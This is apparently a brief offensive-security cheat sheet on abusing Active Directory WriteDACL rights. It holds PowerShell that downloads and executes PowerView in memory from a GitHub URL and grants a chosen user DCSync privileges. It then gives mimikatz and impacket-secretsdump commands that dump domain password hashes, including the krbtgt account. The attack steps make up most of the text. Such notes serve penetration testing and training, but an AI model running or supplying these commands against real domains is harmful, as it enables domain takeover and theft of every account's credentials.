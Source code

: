 ```yaml
---
category: Uncategorized
tags: []
---
```

# PowerView

Downloadable at [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)

## WriteDACL Permission
The WriteDACL privilege gives a user the ability to add ACLs to an
object. This means that we can add a user to this group and give them DCSync privileges.
**After you have created a new user - Then give him DCSync permission**
````powershell
$pass = convertto-securestring '<password' -asplain -force
$cred = new-object system.management.automation.pscredential('<domain>\<username>',$pass)
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
Add-ObjectACL -PrincipalIdentity <username> -Credentials $cred -Rights DCSync
````
### DCSyncing Hashes
Since the user has now the required privileges to use DCSync, we can use mimikatz or secretdump to dump password hashes from the DC via:
````powershell
lsadump::dcsync /user:krbtgt
````
````powershell
impacket-secretsdump <domain>\<username>@<IP-ADDRESS>
````
